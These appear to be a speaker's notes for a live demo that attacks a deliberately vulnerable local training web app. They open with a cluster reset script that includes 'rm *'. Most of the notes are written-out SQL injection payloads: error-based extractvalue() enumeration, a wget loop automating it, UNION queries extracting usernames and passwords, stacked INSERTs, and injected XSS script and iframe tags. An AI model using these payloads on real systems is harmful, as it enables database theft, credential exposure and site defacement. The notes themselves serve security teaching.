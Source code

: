 # RESET

```
set +o history
kind delete cluster
helm repo remove nginx-stable
rm *
cp /Users/cns/httpdocs/talks/nginx-livedemo/cluster-config.yaml .
reset
kind create cluster --config cluster-config.yaml
yq cluster-config.yaml
```

# todo:

- create deployment
- create node port service

# leak data

theres a few ways we can leak data out,

## error

we can simply corrupt the query to see if an error attack might work

```
http://localhost/product/1"a
```

ok, great news errors are surfaced we'll use `extractvalue()` its a simple way to is an easy way to generate an error and allow us to leak things, it only works with single values at a time, and will be truncated a bit, so requires enumerating through them

```
http://localhost/product/1" AND extractvalue(rand(),version())-- //
```

start enumerating through to see the databases

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- //
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,2)))-- //
```

ok, so now we know the database name we is sqltraining, so we can use the same tactic to get the tables in that database

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 0,1)))-- //
```

interesting a users table!

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 1,2)))-- //
```

Now all this enumeration might feel quite laborious, but what if instead use a simple script to do that instead

```bash
for i in {0..20}; do
  wget -q -O - "http://localhost/product/1\" AND extractvalue(rand(),concat(0x3a,(SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME=\"products\" AND table_schema=\"sqlitraining\" LIMIT ${i},1)))-- //" | grep mysqli_sql_exception | cut -d" " -f9
done
```
it shouldn't take much imagination to figure out how you could automate stealing all rows

# union leak
we don't know how many columns were in the original query so we have to brute force queries to satisfy the original query
```
http://localhost/product/-1" UNION SELECT username FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password, username FROM users where id=1 -- //

http://localhost/product/-1" UNION SELECT username,username,password,password,username FROM users where id=1 -- //
```
###


## inserting
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("hack", "hack", "hack", 1); -- //
```
## inserting with xss
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("<script>alert('hi')</script>", "hack", "hack", 1); -- //
http://localhost/product/1"; INSERT INTO products(description, product_name, product_type, price) VALUES("<iframe width=560 height=315 src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>", "never gonna", "give you up", 1); -- //

```

Similarly you can probably imagine anything else we can do like truncate tables, add users, dump lots of data into a table

http://localhost/product/<iframe width='560' height='315' src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>

<iframe sandbox="allow-forms allow-modals allow-popups allow-pointer-lock allow-same-origin allow-scripts" allowfullscreen="true" src="https://www.youtube-nocookie.com/embed/9Auq9mYxFEE?autoplay=1&amp;mute=1&amp;cc=1"></iframe>
# ingress
```bash
helm repo add nginx-stable https://helm.nginx.com/stable

helm install main nginx-stable/nginx-ingress \
 --set controller.enableSnippets=true \
 --set controller.service.type=NodePort \
 --set controller.service.httpPort.nodePort=30000
```